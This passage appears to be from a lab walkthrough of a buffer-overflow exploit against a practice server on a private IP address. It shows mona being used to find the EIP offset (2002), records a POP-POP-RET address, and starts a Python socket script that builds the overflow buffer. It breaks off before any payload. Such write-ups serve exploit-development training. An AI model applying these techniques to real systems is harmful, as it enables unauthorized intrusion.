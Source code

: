 ![](/assets/images/CTP/LTERtake2.JPG)

This looks promising. We have overwritten EIP. Time to use mona to get a pattern created so we can determine the offset. After
+ using `!mona pc 3000` to create a `pattern.txt` file,
+ making that ASCII string our payload,
+ taking the overwritten EIP value and feeding it to mona with `!mona po <EIP after overflowing with mona pattern>`

We get an offset of 2002. Let's confirm we have our offsets correct. 
```python
#!/usr/bin/python

import socket
import os
import sys

#poppopret: 6250172B

host = "192.168.1.201"
port = 9999

buffer = "A" * 2002
buffer += "BBBB"
```